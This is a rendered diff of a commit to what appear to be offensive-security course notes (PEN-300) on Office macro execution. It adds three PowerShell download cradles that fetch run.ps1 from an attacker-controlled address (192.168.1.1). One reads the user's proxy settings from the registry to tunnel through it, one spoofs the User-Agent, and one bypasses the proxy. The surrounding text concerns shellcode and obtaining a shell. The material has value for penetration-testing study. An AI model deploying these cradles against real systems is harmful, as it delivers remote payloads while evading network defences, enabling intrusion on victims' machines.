

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: Macro execution methods.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Macro execution methods.md
+++ b/Macro execution methods.md
@@ -195,3 +195,42 @@ PrependMigrate             false                      yes       Spawns and runs
 (In a nutshell it spawns our shellcode in another process)
 
 Additionally keep in mind that our shellcode must be for 32-bits -> very important, if we use x64 we won't get any shell
+
+**PowerShell Proxy-aware communications:**
+
+As a SYSTEM integrity proxy-aware communication:
+
+```
+#This is powershell code, therefore it must be inside a powershell script
+
+New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
+$keys = Get-ChildItem 'HKU:\'
+ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start =
+$key.Name.substring(10);break}}
+$proxyAddr=(Get-ItemProperty -Path
+"HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
+[system.net.webrequest]::DefaultWebProxy = new-object
+System.Net.WebProxy("http://$proxyAddr")
+$wc = new-object system.net.WebClient
+$wc.DownloadString("http://192.168.1.1/run.ps1")
+```
+
+Fiddling with the user-agent:
+
+```
+#This is powershell code, therefore it must be inside a powershell script
+
+$wc = new-object system.net.WebClient
+$wc.Headers.Add('User-Agent', "UniqueUserAgent123456...")
+$wc.DownloadString("http://192.168.1.1/run.ps1")
+```
+
+Evading the proxy:
+
+```
+#This is powershell code, therefore it must be inside a powershell script
+
+$wc = new-object system.net.WebClient
+$wc.proxy = $null
+$wc.DownloadString("http://192.168.1.1/run.ps1")
+```
````
